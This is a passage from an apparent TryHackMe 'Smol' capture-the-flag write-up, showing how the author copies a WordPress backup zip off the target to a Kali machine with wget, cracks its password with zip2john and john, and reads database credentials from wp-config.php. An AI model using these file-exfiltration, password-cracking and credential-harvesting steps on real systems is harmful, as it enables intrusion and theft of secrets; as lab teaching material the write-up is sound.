 
### Shell as xavi:

Now let’s try to get that zip file to our kali machine and will try to unzip it:

```bash
gege@smol:~$ python3 -m http.server 9001
Serving HTTP on 0.0.0.0 port 9001 (http://0.0.0.0:9001/) ...

# Our kali machine
┌──(kali㉿kali)-[~/tryhackme/smol]
└─$ wget http://10.10.252.187:9001/wordpress.old.zip
```

Let’s try to unzip that file:

```bash
┌──(kali㉿kali)-[~/tryhackme/smol]
└─$ unzip wordpress.old.zip
Archive:  wordpress.old.zip
[wordpress.old.zip] wordpress.old/wp-config.php password:
```

That file was password protected, let’s try to grab hash with zip2john and then crack that hash with john.

```bash
┌──(kali㉿kali)-[~/tryhackme/smol]
└─$ zip2john wordpress.old.zip > zip_hash.txt

┌──(kali㉿kali)-[~/tryhackme/smol]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt zip_hash.txt

┌──(kali㉿kali)-[~/tryhackme/smol]
└─$ john zip_hash.txt --show                                     
wordpress.old.zip:hero_gege@hotmail.com::wordpress.old.zip:wordpress.old/wp-content/plugins/akismet/index.php, wordpress.old/wp-content/index.php, wordpress.old/wp-content/plugins/index.php, wordpress.old/wp-content/themes/index.php, wordpress.old/wp-includes/blocks/spacer/style.min.css, wordpress.old/wp-includes/blocks/spacer/style-rtl.min.css, wordpress.old/wp-includes/blocks/spacer/style.css, wordpress.old/wp-includes/blocks/spacer/style-rtl.css:wordpress.old.zip

1 password hash cracked, 0 left
```

password: hero_gege@hotmail.com

Unzip that file. And while looking that folder , that looks like exact wordpress backup, so let’s see the juiciest file in that folder “wp-config.php”

```bash
┌──(kali㉿kali)-[~/tryhackme/smol/wordpress.old]
└─$ cat wp-config.php
<?php
/**
 * The base configuration for WordPress
 *
....
/** Database username */
define( 'DB_USER', 'xavi' );

/** Database password */
define( 'DB_PASSWORD', 'P@ssw0rdxavi@' );
```
